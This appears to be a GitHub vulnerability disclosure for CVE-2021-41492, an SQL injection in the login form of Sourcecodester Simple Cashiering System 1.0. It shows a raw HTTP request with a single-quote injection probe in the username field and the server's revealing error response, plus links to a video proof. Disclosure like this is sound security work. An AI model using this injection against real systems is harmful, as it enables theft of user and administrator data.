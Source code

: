 ## [CVE-2021-41492](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41492)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-41492/docs/Screenshot%202021-12-01%20173729.png)

## [Software](https://www.sourcecodester.com/php/14945/simple-cashiering-system-pos-php-and-sqlite-source-code-free-download.html)

## Description:
The username parameter from `Sourcecodester Simple Cashiering System (POS) 1.0 ` appears to be vulnerable to SQL injection attacks. A single quote was submitted in the username parameter, and a general error message was returned. Two single quotes were then submitted and the error message disappeared. The attacker can retrieve sensitive information from the database for all users, and also administrator account!

## MySQL Request:

```mysql
POST /cashiering/Actions.php?a=login HTTP/1.1
Host: 192.168.10.63
Origin: http://192.168.10.63
Cookie: PHPSESSID=bgtkft2eqoj6s4ajhp414erka3
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://192.168.10.63/cashiering/login.php
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 37

username=tralala'&password=@32e23eq3r
```

## MySQL Response:

```mysql
HTTP/1.1 200 OK
Date: Wed, 01 Dec 2021 12:06:18 GMT
Server: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.4.24
X-Powered-By: PHP/7.4.24
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 521
Connection: close
Content-Type: text/html; charset=UTF-8

<br />
<b>Warning</b>: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: &quot;5a72f9fa6edacd9d71b9e2dc9d1a9ecc&quot; in <b>C:\xampp\htdocs\cashiering\Actions.php</b> on line <b>1
...[SNIP]...
<b>Fatal error</b>: Uncaught Error: Call to a member function fetchArray() on bool in C:\xampp\htdocs\cashiering\Actions.php:15
Stack trace:
#0 C:\xampp\htdocs\cashiering\Actions.php(233): Actions-&gt;login()
#1 {main}
thrown in <b>
```


## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/CVE-2021-41492)

## Proof and explot:
[href](https://streamable.com/9rmlg1)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-41492/docs/Screenshot%202021-12-01%20175827.png)

## BR nu11secur1ty
